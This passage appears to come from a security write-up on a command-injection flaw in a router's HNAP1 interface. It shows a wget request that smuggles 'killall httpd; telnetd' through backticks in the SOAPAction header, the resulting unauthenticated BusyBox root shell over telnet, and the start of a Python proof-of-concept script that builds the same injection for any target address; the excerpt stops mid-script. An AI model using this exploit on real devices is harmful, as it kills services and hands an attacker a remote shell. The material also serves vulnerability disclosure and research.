     $ wget --header='SOAPAction: "http://purenetworks.com/HNAP1/GetDeviceSettings/`killall httpd; telnetd -p 8080`"' http://1.2.3.4:8080/HNAP1
    $ telnet 1.2.3.4 8080
    Trying 1.2.3.4...
    Connected to 1.2.3.4.
    Escape character is '^]'.
     
     
    BusyBox v1.14.1 (2015-02-11 17:15:51 CST) built-in shell (msh)
    Enter 'help' for a list of built-in commands.
     
    #

Note that the wget requests will hang, since cgibin is essentially waiting for telnetd to return. A little Python PoC makes the exploit less awkward:

    #!/usr/bin/env python
     
    import sys
    import urllib2
    import httplib
     
    try:
        ip_port = sys.argv[1].split(':')
        ip = ip_port[0]
     
        if len(ip_port) == 2:
            port = ip_port[1]
        elif len(ip_port) == 1:
            port = "80"
        else:
            raise IndexError
    except IndexError:
        print "Usage: %s <target ip:port>" % sys.argv[0]
        sys.exit(1)
     
    url = "http://%s:%s/HNAP1" % (ip, port)
    # NOTE: If exploiting from the LAN, telnetd can be started on
    #       any port; killing the http server and re-using its port
    #       is not necessary.
    #
    #       Killing off all hung hnap processes ensures that we can
    #       re-start httpd later.
    command = "killall httpd; killall hnap; telnetd -p %s" % port
    headers = {
                "SOAPAction"    : '"http://purenetworks.com/HNAP1/GetDeviceSettings/`%s`"' % command,
              }
     